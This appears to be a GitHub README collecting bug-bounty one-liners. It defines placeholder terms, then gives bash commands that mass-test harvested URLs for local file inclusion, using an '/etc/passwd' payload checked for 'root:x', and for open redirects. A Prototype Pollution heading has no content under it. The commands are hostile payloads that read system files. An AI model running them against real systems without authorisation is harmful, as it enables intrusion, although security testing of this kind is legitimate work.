 # Can I Check [![Awesome](https://awesome.re/badge-flat2.svg)](https://awesome.re)
> A collection of awesome one-liner scripts especially for bug bounty.
> Thanks for visiting my repository! If you find my work useful, please consider buying me a coffee to support my future projects.

<a href="https://www.buymeacoffee.com/SecuritySphinx" target="_blank"><img src="https://cdn.buymeacoffee.com/buttons/v2/default-yellow.png" alt="Buy Me A Coffee" style="height: 60px !important;width: 217px !important;" ></a>

> Please note that this command is just an example and it may not work correctly. It is important to test it and understand the command before you use it in a production environment.

This repository stores and houses various one-liner for bug bounty tips provided by me as well as contributed by the community. Your contributions and suggestions are heartily♥ welcome.


This section defines specific terms or placeholders that are used throughout one-line command/scripts.

- 1.1. "**HOST**" defines one hostname, (sub)domain, or IP address, e.g. replaced by `internal.host`, `domain.tld`, `sub.domain.tld`, or `127.0.0.1`.
- 1.2. "**HOSTS.txt**" contains criteria 1.1 with more than one in file.
- 2.1. "**URL**" definitely defines the URL, e.g. replaced by `http://domain.tld/path/page.html` or somewhat starting with HTTP/HTTPS protocol.
- 2.2. "**URLS.txt**" contains criteria 2.1 with more than one in file.
- 3.1. "**FILE.txt**" or "**FILE**`{N}`**.txt**" means the files needed to run the command/script according to its context and needs.
- 4.1. "**OUT.txt**" or "**OUT**`{N}`**.txt**" means the file as the target storage result will be the command that is executed.

---

### Local File Inclusion
> @SecuritySphinx

```bash
gau -f HOST | gf lfi | qsreplace "/etc/passwd" | xargs -I% -P 25 sh -c 'curl -v -L --retry 3 --retry-delay 5 --retry-max-time 30 -s "%" 2>&1 | grep -q "root:x" && echo -e "\e[31mVULN! %\e[0m" || echo -e "\e[32mSAFE! %\e[0m"'
```
### Open-redirect
> @SecuritySphinx

```bash
export LHOST="URL"; gau $1 | gf redirect | qsreplace "$LHOST" | xargs -I % -P 25 sh -c 'response=$(curl -Is "%" -w %{url_effective} -o /dev/null -s); if echo $response | grep -q "Location: $LHOST"; then echo -e "\e[32mVULN\e[39m! %"; elif echo $response | grep -q "HTTP/1.1 3"; then echo -e "\e[33mPOTENTIAL VULN\e[39m! %"; else echo -e "\e[31mNot VULN\e[39m"; fi'
```


### Prototype Pollution
> @SecuritySphinx
